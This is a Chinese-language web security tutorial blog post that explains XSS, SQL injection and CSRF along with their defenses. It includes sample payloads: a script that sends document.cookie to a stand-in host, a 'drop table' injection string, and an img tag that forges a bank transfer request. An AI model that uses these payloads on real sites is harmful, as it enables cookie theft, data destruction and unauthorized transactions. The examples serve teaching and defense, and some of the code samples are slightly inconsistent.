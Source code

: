 ```yaml
---
layout: post
title:  "Web安全"
date:   2016-03-29 22:06:52
categories: security encypt dencypt
comments: true
thread: 20160329220652555
---
```


# 概述

  春风吹，战鼓擂，除了互联网还有谁……

现今互联网在各行各业潜移默化的渗透到我们生活的各个领域， 生活水电煤，淘宝京东购物， 吃喝玩乐新美大等等， 在改变着我们生活的同时，各种门，隐私信息、密码、资金被盗现象频繁发生。Web程序安全问题越来越受到关注。

很多Web应用程序的安全问题都是由于轻信了第三方提供的数据。比如用户输入的数据，验证之前都属于不安全的数据，输出到客户端可能造成XSS跨站脚本攻击；不安全数据作用到数据库，可能产生SQL注入问题；更为危险的一种就是CSRF。那我们作为应用开发者应该怎么办呢？

# XSS(Cross Site Script 跨站脚本攻击 )
### XSS成因
XSS其实就是Html的注入问题，攻击者的输入没有经过严格的控制进入了数据库，最终显示给来访的用户，导致可以在来访用户的浏览器里以浏览用户的身份执行Html代码，数据流程如下：攻击者的Html输入—>web程序—>进入数据库—>web程序—>用户浏览器。

### 攻击手段和目的:
攻击者使被攻击者在浏览器中执行脚本后，如果需要收集来自被攻击者的数据（如cookie或其他敏感信息），可以自行架设一个网站，让被攻击者通过JavaScript等方式把收集好的数据作为参数提交，随后以数据库等形式记录在攻击者自己的服务器上。

1. 盗用 cookie ，获取敏感信息。
2. 利用植入 Flash ，通过 crossdomain 权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
3. 利用 iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作。
4. 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
5. 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果。

### 攻击示例
```javascript
<script>alert(document.cookie)</script>
location.href='<a href='http://www.xss.com?cookie='+'document.cookie;
while (true) { alert("你关不掉我~");}
```

### 解决方法
- 过滤特殊字符

  对特殊字符过滤或者escape、

- 使用HTTP头指定类型

set("Content-Type", "text/javascript"), 知道浏览器解析javascript

# SQL注入（SQL Injection）
简称SQL注入攻击，是一种常见的安全漏洞，用来从数据库获取敏感信息，或者避开数据库限制条件的判断。

### 成因
没有对用户输入做有效过滤

### 攻击手段和目的
- 通过串联硬编码字符串和用户输入的字符串而生成一个 SQL 查询

### 攻击示例
```Html
<form ....>
......
<input name="name"></input>
........
</form>
```
```Java
String name = request.getAttribute("name");
String sql = "select * from Order where name = '" + shipCity + "'";
```
假定用户输入以下内容：Coyote'; drop table Order--
此时，脚本将组成以下查询：SELECT * FROM Coyote WHERE name = 'Coyote'; drop table Order--'
啦么，你完蛋了小狼。

### 解决方式
1. 严格限制Web应用的数据库的操作权限，给此用户提供仅仅能够满足其工作的最低权限，从而最大限度减少注入攻击对数据库的危害。
2. 检查输入的数据是否具有所期望的数据格式，严格限制变量的类型，例如使用regexp包进行一些匹配处理。
3. 对进入数据库的特殊字符（'"\尖括号&* ;等) 进行转义处理，或编码转换。
4. 所有的查询语句建议使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到SQL语句中，即不要直接拼接SQL语句。

# CSRF(Cross Site Request Forgery 跨站请求伪造)
### 成因
伪造请求，冒充用户在站内的正常操作。
![Web CSRF](/assets/img/security/web_csrf.jpg)

### 攻击手段
绝大多数网站是通过 cookie 等方式辨识用户身份（包括使用服务器端 Session 的网站，因为 Session ID 也是大多保存在 cookie 里面的），再予以授权的。所以要伪造用户的正常操作，最好的方法是通过 XSS 或链接欺骗等途径，让用户在本机（即拥有身份 cookie 的浏览器端）发起用户所不知道的请求。

### 攻击示例
- 银行网站A，它以GET请求来完成银行转账的操作，如http://www.mybank.com/Transfer.php?toBankId=11&money=1000
- 危险网站B，它里面有一段HTML的代码如下<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>
- 首先，你登录了银行网站A，然后访问危险网站B，噢，这时你会发现你的银行账户少了1000块......

为什么会这样呢？原因是银行网站A违反了HTTP规范，使用GET请求更新资源。在访问危险网站B的之前，你已经登录了银行网站A，而B中的<img>以GET的方式请求第三方资源（这里的第三方就是指银行网站了，原本这是一个合法的请求，但这里被不法分子利用了），所以你的浏览器会带上你的银行网站A的Cookie发出Get请求，去获取资源“http://www.mybank.com/Transfer.php?toBankId=11&money=1000”， 结果银行网站服务器收到请求后，认为这是一个更新资源操作（转账操作），所以就立刻进行转账操作......\

### 解决方式
一般都是在服务器端做处理：
- 正确使用Get、Post方式
- 非Get请求中增加伪随机数， 使用一次后即丢弃。
- Cookie信息加密


参考
http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html 浅谈CSRF攻击方式
http://selfcontroller.iteye.com/blog/1844653  xss与csrf的区别
http://blog.csdn.net/hengshujiyi/article/details/45972533 AES,SHA1,DES,RSA,MD5区别
